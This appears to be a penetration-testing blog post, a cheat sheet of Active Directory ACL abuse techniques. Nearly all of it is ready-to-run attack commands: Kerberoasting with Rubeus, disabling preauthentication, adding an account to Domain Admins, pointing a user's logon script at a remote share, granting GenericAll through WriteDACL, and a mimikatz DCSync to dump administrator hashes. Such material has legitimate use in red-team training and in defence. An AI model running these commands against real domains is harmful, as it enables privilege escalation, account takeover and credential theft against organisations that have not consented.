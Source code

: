 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: ACL Abuse
---
```


Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
1. **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
2. **Targeted Kerberoasting**
    1. Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    2. Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    3. Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
3. **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
1. **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```bash
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
2. AllExtendedRights
- Change Password
```bash
net user <username> <password> /domain
```
- Add to Group
```bash
net group "domain admins" spotless/add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
3. Self-Membership (Add to Group)
```bash
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
4. ExtendedRight (User-Force-Change-Password (Password Reset))
```bash
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```
5. WriteProperty (Add to Group)
```bash
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```
6. WriteOwner (Change the object’s owner)
```bash
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```
7. WriteDACL (Grant Generic Permissions** (must be the owner))
```bash
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
8. DCSync Attack 
The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```bash
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```
